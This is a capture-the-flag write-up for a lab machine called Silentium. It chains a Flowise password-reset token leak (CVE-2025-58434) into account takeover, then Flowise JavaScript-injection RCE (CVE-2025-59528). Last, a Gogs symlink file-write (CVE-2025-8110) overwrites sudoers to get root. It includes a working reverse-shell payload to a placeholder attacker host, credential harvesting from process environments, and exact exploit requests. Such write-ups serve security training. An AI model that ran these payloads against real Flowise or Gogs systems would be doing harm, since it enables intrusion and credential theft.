





# Silentium Write-up

## Initial Enumeration

We begin by performing a full TCP port scan with Nmap to identify open
services.

``` bash
nmap -p- --min-rate 5000 <TARGET_IP>
```

The scan revealed ports **22 (SSH)** and **80 (HTTP)**. We then
performed a service and default script scan for further enumeration.

``` bash
nmap -p22,80 -sV -sC <TARGET_IP>
```

The results identified an **OpenSSH** service on port 22 and an
**Nginx** web server on port 80, which redirected requests to **silentium.htb**.

We added the hostname to our local hosts file.

``` bash
echo "<TARGET_IP> silentium.htb" | sudo tee -a /etc/hosts
```

------------------------------------------------------------------------

## Web Application Enumeration
We performed enumeration with Gobuster vhost option to uncover
hidden web environments.

``` bash
gobuster vhost -u http://silentium.htb -w /usr/share/wordlists/dirb/big.txt --append-domain
```

This revealed:

`staging.silentium.htb`

After adding it to `/etc/hosts`, browsing to the site presented
an instance of **Flowise AI**.



------------------------------------------------------------------------

## Foothold -- Flowise Account Takeover (CVE-2025-58434)

Flowise versions **3.0.5 and earlier** are vulnerable to
**CVE-2025-58434**, an account takeover vulnerability in the password
reset functionality.

### Vulnerability Overview

When an unauthenticated user submits a password reset request to:

`POST /api/v1/forgot-password`

the application generates a temporary password reset token
(`tempToken`). Instead of keeping this token internal and only
delivering it through email, the application returns it directly in the
JSON response.

As a result, anyone capable of submitting a password reset request for a
valid user can immediately obtain the reset token and change that user's
password without requiring access to their email account.

### Enumerating Valid Users

Using **Burp Suite**, intercept a password reset request.



Submitting a request with a non-existent email returns:

`404 User not found`

Send the request to **Burp Intruder** and replace the email parameter
with a list of common usernames (convert to lowercase if required).

Sorting the responses by status code reveals a **201 Created** response
for:

`ben@silentium.htb`

confirming that the account exists.



### Resetting the Password

Repeat the password reset request using the valid email. The response
now contains the generated `tempToken`.



Using the **Change Password** page, supply:

-   Email: `ben@silentium.htb`
-   The disclosed `tempToken`
-   A new password

You can now authenticate to the Flowise dashboard.

------------------------------------------------------------------------

## Remote Code Execution -- Flowise (CVE-2025-59528)

Grabbing API key from:

`Settings → API Keys`

### Vulnerability Overview

The **CustomMCP** node unsafely evaluates user-controlled JavaScript
contained within the `mcpServerConfig` parameter.

An authenticated attacker can abuse:

`POST /api/v1/node-load-method/customMCP`

to execute arbitrary JavaScript and achieve operating system command
execution.

### Exploitation

Required headers:

``` http
Authorization: Bearer <YOUR_API_KEY>
Content-Type: application/json
```

Payload:

``` json
{
  "loadMethod": "listActions",
  "inputs": {
    "mcpServerConfig": "({x:(function(){const cp=process.mainModule.require('child_process');cp.exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <ATTACKER_IP> <PORT> >/tmp/f');return 1;})()})"
  }
}
```



Start a Netcat listener before sending the request.

``` bash
nc -lvnp <PORT>
```

A reverse shell is obtained inside the Flowise Docker container.

------------------------------------------------------------------------

## Container Enumeration

Inspect environment variables:

``` bash
env
```

or

``` bash
cat /proc/1/environ | tr '\0' '\n'
```

Relevant credentials:

``` text
FLOWISE_USERNAME=ben
SMTP_PASSWORD=r04D!!_R4ge
```

Attempt credential reuse via SSH:

``` bash
ssh ben@silentium.htb
```

Read the user flag:

``` bash
cat /home/ben/user.txt
```

------------------------------------------------------------------------

## Privilege Escalation -- Gogs (CVE-2025-8110)

Identify the internal service:

``` bash
ss -tlnp
ps aux | grep gogs
```

Gogs is listening on port **3001** and is running as **root**.

Forward the port:

``` bash
ssh -L 3001:127.0.0.1:3001 ben@silentium.htb
```

Browse to:

`http://127.0.0.1:3001`

Register a user, generate a Personal Access Token, and create a
repository.

Clone it locally:

``` bash
git clone http://127.0.0.1:3001/<USERNAME>/<REPOSITORY>.git
cd <REPOSITORY>
ln -s /etc/sudoers.d/ben malicious_link
git add malicious_link
git commit -m "Add symlink"
git push
```

Exploit the arbitrary file write:

``` bash
curl -i -X PUT "http://127.0.0.1:3001/api/v1/repos/<USERNAME>/<REPOSITORY>/contents/malicious_link" \
-H "Authorization: token <YOUR_API_TOKEN>" \
-H "Content-Type: application/json" \
-d '{
"content":"YmVuIEFMTD0oQUxMKSBOT1BBU1NXRDogQUxM",
"message":"Privilege Escalation",
"branch":"master"
}'
```

The Base64 payload decodes to:

``` text
ben ALL=(ALL) NOPASSWD: ALL
```

This overwrites `/etc/sudoers.d/ben`, granting passwordless sudo.

------------------------------------------------------------------------

## Root

Obtain a root shell:

``` bash
sudo su
```

or read the root flag directly:

``` bash
sudo cat /root/root.txt
```

The machine is now fully compromised.
